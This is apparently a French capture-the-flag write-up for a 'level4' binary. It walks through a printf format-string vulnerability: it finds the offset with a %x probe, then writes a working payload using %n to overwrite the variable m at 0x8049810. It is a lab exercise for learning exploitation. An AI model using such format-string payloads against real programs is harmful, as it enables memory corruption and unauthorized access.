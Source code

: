 Meme chose que le flag3

on voit un programme qui a la fonction N et P
le main call uniquement N qui a un fgets ce qui empeche les buffer overflow attack
la fontion P a un printf donc on va faire comme le level3
on va encore une fois recuperer l'adresse de la variable M avec print &m et on a son adresse : 0x8049810 et juste apres il est compare avec $0x1025544
comme le level3 on va essayer de print notre adresse

python -c 'print "CCCC %x %x %x %x %x %x %x %x %x %x %x %x %x"' > /tmp/test

notre adresse est a la 12 eme position donc comme le level3 on met l'adresse de la variable m : \x10\x98\x04\x08

a l'adresse 0x1025544 il y a 16930116 en decimal il faut donc qu'on ecrive cette valeur en enlevent 4 car l'adresse fait 4 bytes ce qui donne 16930112d

python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' > /tmp/test2

cat /tmp/test2 | ./level4
